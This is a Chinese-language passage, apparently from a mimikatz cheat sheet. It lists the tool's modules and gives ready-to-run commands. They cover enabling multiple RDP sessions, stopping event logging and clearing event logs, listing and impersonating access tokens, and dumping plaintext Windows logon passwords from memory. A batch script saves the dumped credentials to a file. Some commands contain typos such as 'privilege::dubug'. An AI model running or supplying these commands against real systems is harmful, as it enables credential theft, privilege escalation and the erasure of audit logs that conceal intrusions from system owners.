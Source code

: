 ### [ts（终端服务模块）](#toc_ts)

```bash
ts::sessions   显示当前对话
ts::multirdp    允许多个用户使用 rdp 安装 rdp 布丁
```

### [event（事件模块）](#toc_event)

```bash
event::drop  启动时间补丁服务 不在记录新产生的事件
event::clear  清楚时间日志
```

### [token（令牌操作模块）](#toc_token)

```bash
token::whoami  显示当前身份
token::list    列出系统所有的令牌
token::elevate  冒充令牌
token::run     运行
token::revert   恢复到进程令牌
```

### [misc（杂项模块）](#toc_misc)

打开 cmd、regedit、taskmgr、ncroutemon、detours、wifi、addsid、memssp、skeleton 等。

## [功能实现](#toc__2)

### [sekurlsa 模块中 logonpasswords 抓取密码操作](#toc_sekurlsalogonpasswords)

```bash
1.交互式抓取明文密码
privilege::dubug
sekurlsa::logonpasswords
2.更方便的 mimikatz 命令
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
3.输出日志
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
4.bat 脚本
@echo off
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > C:\programdata\log.txt
```
